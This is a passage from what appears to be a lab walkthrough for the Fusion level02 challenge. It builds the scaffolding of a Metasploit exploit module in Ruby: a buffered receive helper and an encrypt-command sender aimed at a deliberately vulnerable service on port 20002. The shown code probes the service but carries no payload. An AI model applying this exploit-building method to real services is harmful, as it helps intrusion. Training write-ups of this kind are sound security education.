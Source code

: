 The server is listening for commands on port 20002:

{% highlight bash %}
root@fusion:~# lsof -i
COMMAND     PID     USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
...snip...
level02    1479    20002    3u  IPv4  12273      0t0  TCP *:20002 (LISTEN)
...snip...
{% endhighlight %}

Create an [empty Metasploit module]({{site.baseurl}}/files/EmptyTcpMetasploitModule.rb) and update the `register_options` array with the IP of your local fusion VM. I used the following path:

- `/opt/metasploit-framework/modules/exploits/fusion/level02.rb`

The Ruby `recv` method accepts a maximum length of bytes, but the client needs to read in all data before trying to send a message. below is a buffered recv that will keep reading data until the full message is consumed. I created a second convenience function to send the encrypt command.

{% highlight Ruby %}
def buffered_recv(size)
  data = ""
  new_data = ""
  size_to_receive = size
  while(data.length < size) do
    new_data = sock.recv(size_to_receive)
    size_to_receive -= new_data.length
    data += new_data
  end
  data
end

def encrypt(len, data)
  buffer = "E" + [len].pack('L') + data
  sock.put(buffer)
  msg = buffered_recv(124)
  enc_data = buffered_recv(len)
  return enc_data
end
{% endhighlight %}

Fill the `exploit` method to send an encrypt command then quit.

{% highlight Ruby %}
def exploit
  # Open the TCP connection
  connect

  # Receive initial messages
  buffered_recv(57)

  # Send some data to be encrypted
  data = "A" * 256
  encrypted_data = encrypt(data.length, data)
  print_status("Encrypted data: #{encrypted_data.inspect}")

  # Send the quit command
  sock.put('Q')
  disconnect
end
{% endhighlight %}
